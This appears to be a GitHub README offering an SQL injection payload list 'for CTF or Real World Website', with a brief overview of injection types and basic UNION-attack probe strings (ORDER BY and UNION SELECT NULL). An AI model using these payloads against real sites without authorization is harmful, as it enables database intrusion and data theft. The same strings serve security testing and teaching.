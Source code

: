 # SQL-Payload-

List of ALl SQL PAyload to be used for CTF or Real World Website !

![image](https://user-images.githubusercontent.com/82144868/210714729-ed83ccfa-6f56-4dce-ae99-d2c3ae8657b0.png)

SQL injection examples
There are a wide variety of SQL injection vulnerabilities, attacks, and techniques, which arise in different situations. Some common SQL injection examples include:

Retrieving hidden data, where you can modify an SQL query to return additional results.
Subverting application logic, where you can change a query to interfere with the application's logic.
UNION attacks, where you can retrieve data from different database tables.
Examining the database, where you can extract information about the version and structure of the database.
Blind SQL injection, where the results of a query you control are not returned in the application's responses.


UNION ATTACK 

- ' ORDER BY 1--
- ' ORDER BY 2--
- ' ORDER BY 3--
etc.

*' UNION SELECT NULL--
*' UNION SELECT NULL,NULL--
*' UNION SELECT NULL,NULL,NULL--
etc


